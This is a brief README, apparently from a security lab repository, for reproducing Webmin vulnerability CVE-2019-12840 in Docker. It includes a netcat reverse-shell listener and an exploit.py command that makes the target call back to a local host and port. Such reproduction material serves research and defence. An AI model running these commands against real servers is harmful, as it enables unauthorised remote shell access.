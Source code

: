 # CVE-2019-12840

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-12840>


## PoC / Exploit
* <https://github.com/KrE80r/webmin_cve-2019-12840_poc>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900

## Reproduction 

* Server
    - Docker:
    ```shell script
    sudo docker build -t cve-2019-12840 .
    sudo docker run -p10000:10000 -it cve-2019-12840
    ```
    
    - Script:
    ```shell script
    bash installation.sh
    ```    

* Client
    - Terminal 1 (reverse shell) :
    ```shell script
    nc -nlv 7777
    ```
    
    - Terminal 2:
    ```shell script
    python3 exploit.py -u https://HOSTNAME_IP -U test -P qwerty -lhost LOCAL_IP -lport 7777
    ```
  